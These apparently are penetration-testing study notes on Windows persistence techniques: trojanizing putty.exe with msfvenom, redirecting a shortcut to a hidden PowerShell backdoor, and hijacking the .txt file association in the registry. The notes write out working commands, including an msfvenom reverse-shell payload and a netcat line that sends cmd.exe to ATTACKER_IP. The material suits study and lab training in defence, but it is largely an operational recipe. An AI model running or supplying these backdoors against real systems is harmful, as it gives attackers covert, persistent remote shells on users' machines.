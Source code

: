 
## Modify existing executable
- Modify any executable file that user frequently uses and add backdoor in them. Eg. putty.exe
- Locate the executable, say `C:\Program Files\PuTTY\putty.exe`
- Download it to our own machine
- Use `msfvenom` to plant backdoor in the putty file
```sh
$ msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

## Update a shortcut target
- Instead of replacing the original executable, we can update the shortcut to point to modified binary file
- Simple powershell script with backdoor

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e C:\WIndows\System32\cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

- Update the shortcut's target to point to our script

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

## Hijacking File Associations

-  hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.
- default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`
- Program for text file: go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it
- search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified
- Update the command to open the filetype with our backdoor command. Eg.
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
